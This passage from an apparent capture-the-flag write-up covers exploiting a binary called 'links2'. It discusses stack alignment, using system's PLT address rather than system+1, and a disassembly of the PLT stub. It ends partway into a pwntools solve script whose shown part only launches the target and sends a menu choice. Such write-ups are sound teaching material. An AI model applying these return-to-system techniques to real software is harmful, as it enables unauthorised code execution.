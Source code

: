 Notice that the RSP (`0x7fff526190b0`) no longer ends with an `8`, like it did when we were getting a segfault.

**double edit:** After reading the official write-up, I realised my mistake of using `system+1`. I had misinterpreted the advice, as in theirs they use the PLT address of system, rather than leaking from Lib-C. There's a good summary of PLT vs GOT (and plt.got vs got.plt) **[HERE](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)**.

> TL;DR: Those starting with .plt contain stubs to jump to the target, those starting with .got are tables of the target addresses.

Here's a snippet of the `plt.system` section of the binary. We should of used `0x401060` in this instance.

```c
thunk int system(char * __command)
      Thunked-Function: <EXTERNAL>::system
int           EAX:4      <RETURN>
char *        RDI:8      __command
        <EXTERNAL>::system     XREF[1]:  view_time:0040141a(c)
00401060 ff 25       JMP      qword ptr [-><EXTERNAL>::system]
00401066 68 03       PUSH     0x3
0040106b e9 b0       JMP      FUN_00401020
```

## Solve Script

```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
```